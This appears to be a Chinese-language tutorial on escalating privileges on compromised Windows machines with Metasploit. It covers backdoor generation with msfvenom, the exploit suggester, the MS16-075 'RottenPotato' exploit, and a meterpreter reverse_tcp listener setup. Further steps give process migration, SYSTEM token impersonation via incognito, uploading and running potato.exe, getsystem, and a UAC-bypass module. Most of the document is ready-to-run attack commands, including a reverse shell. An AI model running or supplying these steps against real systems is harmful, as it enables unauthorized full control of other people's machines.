MSF提权
## **上线**
生成后门程序
监听上线msfvenom
getuid查看当前用户权限。
background后台运行

# **web服务用户提权**
## **寻找提取方案**
use 提权方案  使用提权方案。如：use post/multi/recon/local_exploit_suggester
show options
sessions 列出上线的会话
set showdescription true 列出细节
set session 1  提权方案应用到上线的会话1
run   可以看到哪些提权cve的exploit可以使用
再run一次，更多详细。 

## **利用提权**
use exploit/windows/local/ms16_075_reflection_juicy  使用这个cve提权利用
show options
set session 1  提权cve利用应用到上线的会话1
run  提示全是[+]好[*]则成功，[-]号则失败。
sessions 1  回到会话
getuid查看权限提权成功
或新建一个会话返回

**如果show options的利用方式仅支持直接反弹：**
新监听个会话
```
use exploit/multi/handler
使用对应监听模块
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6666
run
```
直接利用时反弹新端口：
use exploit/windows/local/ms16_075_reflection_juicy  使用这个cve提权利用
show options
设置监听机和端口666
exploit  直接利用上线到新监听机和端口。
此时回到监听的页面即可看到上线
getuid提权成功


# **本地用户提权**
## **Win的MSF会话中进程迁移提权**
进入会话
ps查看进程，哪些进程是system运行。
migrate 288进程号 ，即可
getuid 为system了

## **Win的MSF会话令牌窃取提权**
msf会话中
```
use incognito
list_tokens -u           #列出有的令牌,其中NT TAUTHORITY\SYSTEM为我们需要的
impersonate_token "NT AUTHORITY\SYSTEM" #窃取system令牌
getuid 即可是system
```

## **MSF配合烂土豆实现令牌窃取**
烂土豆(RottenPotato）MS16-075提权是一个本地提权，一般只针对本地用户，不支持域用户，这里更多是支持web服务用户。

原理：
烂土豆一个溢出漏洞功能是可以欺骗“NT AUTHORITY\SYSTEM”账户通过NTLM认证到我们控制的TCP终端，对这个认证过程使用中间人攻击（NTLM重放），为“NTAUTHORITYSYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的WindowsAPI调用实现的，模仿这个令牌。

条件：
只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

适用版本：
Windows7/8/10，Windowsserver2008/2012


利用：
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075>    
将烂土豆工具给上传至需要提权的机器中，potato.exe
msf会话中执行
```
execute -cH -f ./potato.exe    ##执行烂土豆程序
use incognito                  ##加载窃取功能
list_tokens -u                 ##查看可窃取的令牌
impersonate_token "NT AUTHORITY\SYSTEM"   ##使用令牌
getuid
``` 

## **Win的MSF会话自动提权**
msf会话中
```
getsystem //自动寻找msf中提权，仅支持windows
getuid
```
win10+有UAC保护时，可能不成功。

此时可以搜索bypassUAC模块使用。
>使用前提有两个：
>一是系统当前用户必须在管理员组中
>二是用户账户控制程序UAC设置为默认，即“仅在程序试图更改我的计算机时通知我
```
search uac 查看对应系统版本的
use exploit/windows/local/ask    ##选择模块
sessions         ##查看后台会话
set session 1    ##选择应用的会话ID
set lport 5555   ##设置监听端口，有时候返回回来会出现错误，所以就另起一个监听。
```
